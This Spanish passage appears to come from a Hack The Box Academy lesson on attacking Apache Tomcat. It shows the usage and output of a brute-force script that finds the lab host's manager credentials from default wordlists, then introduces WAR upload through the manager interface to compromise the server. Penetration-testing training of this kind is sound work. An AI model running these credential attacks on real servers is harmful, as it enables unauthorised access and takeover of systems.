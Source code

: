 Este es un script muy sencillo que toma algunos argumentos. Podemos ejecutar el script con `-h` para ver qué necesita para ejecutarse.

```r
python3 mgr_brute.py  -h

usage: mgr_brute.py [-h] -U URL -P PATH -u USERNAMES -p PASSWORDS

Tomcat manager or host-manager credential bruteforcing

optional arguments:
  -h, --help            show this help message and exit
  -U URL, --url URL     URL to tomcat page
  -P PATH, --path PATH  manager or host-manager URI
  -u USERNAMES, --usernames USERNAMES
                        Users File
  -p PASSWORDS, --passwords PASSWORDS
                        Passwords Files
```

Podemos probar el script con los usuarios y contraseñas predeterminados de Tomcat que utiliza el módulo de Metasploit anterior. Lo ejecutamos y obtenemos un acierto.

```r
python3 mgr_brute.py -U http://web01.inlanefreight.local:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt

[+] Atacking.....

[+] Success!!
[+] Username : b'tomcat'
[+] Password : b'admin'
```

Si estás interesado en la creación de scripts, revisa los módulos [Introduction to Python 3](https://academy.hackthebox.com/course/preview/introduction-to-python-3) y [Introduction to Bash Scripting](https://academy.hackthebox.com/course/preview/introduction-to-bash-scripting). Un ejercicio interesante sería crear nuestros propios scripts de fuerza bruta para el login de Tomcat Manager usando Python y Bash, pero dejaremos ese ejercicio para ti.

---

## Tomcat Manager - Carga de Archivo WAR

Muchas instalaciones de Tomcat proporcionan una interfaz GUI para gestionar la aplicación. Esta interfaz está disponible en `/manager/html` por defecto, a la que solo pueden acceder los usuarios asignados al rol `manager-gui`. Las credenciales válidas de manager pueden usarse para cargar una aplicación empaquetada de Tomcat (.WAR) y comprometer la aplicación. Un WAR, o Web Application Archive, se usa para implementar rápidamente aplicaciones web y para almacenamiento de respaldo.

Después de realizar un ataque de fuerza bruta y responder a las preguntas 1 y 2 a continuación, navega a `http://web01.inlanefreight.local:8180/manager/html` e ingresa las credenciales.

![](https://academy.hackthebox.com/storage/modules/113/tomcat_mgr.png)
